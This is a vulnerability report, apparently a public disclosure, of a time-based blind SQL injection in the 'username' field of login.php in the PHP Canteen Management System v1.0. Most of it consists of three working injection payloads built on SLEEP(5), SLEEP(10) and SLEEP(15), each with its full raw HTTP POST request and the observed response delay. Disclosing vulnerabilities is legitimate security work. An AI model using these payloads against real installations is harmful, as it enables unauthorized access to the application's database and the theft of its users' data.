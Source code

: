 # Canteen Management System v1.0 by mayuri_k has SQL injection

BUG_Author: Dingzhi.Huang

vendors:https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

Vulnerability File: /youthappam/youthappam/login.php/

Parameter "username" (POST), exists delayed injection vulnerability

Payload1: username=12' AND (SELECT 9725 FROM (SELECT(SLEEP(5)))abcd) AND 'qwer'='qwer&password=34&login=

```
POST /youthappam/youthappam/login.php HTTP/1.1
Host: localhost
Content-Length: 120
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/youthappam/youthappam/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: ci_session=e2rd852shtb8ln3qruscom3ubh61e7hs; PHPSESSID=op50rtk7p4u3f4hmp9vpfv7eta
Connection: close

username=12%27+AND+%28SELECT+9725+FROM+%28SELECT%28SLEEP%285%29%29%29abcd%29+AND+%27qwer%27%3D%27qwer&password=34&login=
```

SELECT(SLEEP(5)), The server response time is 5 seconds

![image](https://github.com/dynamohuang/pic/blob/main/5sec.png)

Payload2: username=12' AND (SELECT 9725 FROM (SELECT(SLEEP(10)))abcd) AND 'qwer'='qwer&password=34&login=

```
POST /youthappam/youthappam/login.php HTTP/1.1
Host: localhost
Content-Length: 121
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/youthappam/youthappam/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: ci_session=e2rd852shtb8ln3qruscom3ubh61e7hs; PHPSESSID=op50rtk7p4u3f4hmp9vpfv7eta
Connection: close

username=12%27+AND+%28SELECT+9725+FROM+%28SELECT%28SLEEP%2810%29%29%29abcd%29+AND+%27qwer%27%3D%27qwer&password=34&login=
```

SELECT(SLEEP(10)), The server response time is 10 seconds


![image](https://github.com/dynamohuang/pic/blob/main/10sec.png)

Payload3: username=12' AND (SELECT 9725 FROM (SELECT(SLEEP(15)))abcd) AND 'qwer'='qwer&password=34&login=

```
POST /youthappam/youthappam/login.php HTTP/1.1
Host: localhost
Content-Length: 121
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/youthappam/youthappam/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: ci_session=e2rd852shtb8ln3qruscom3ubh61e7hs; PHPSESSID=op50rtk7p4u3f4hmp9vpfv7eta
Connection: close

login=&password=34&username=12%27+AND+%28SELECT+9725+FROM+%28SELECT%28SLEEP%2815%29%29%29abcd%29+AND+%27qwer%27%3D%27qwer
```

SELECT(SLEEP(15)), The server response time is 15 seconds

![image](https://github.com/dynamohuang/pic/blob/main/15sec.png)
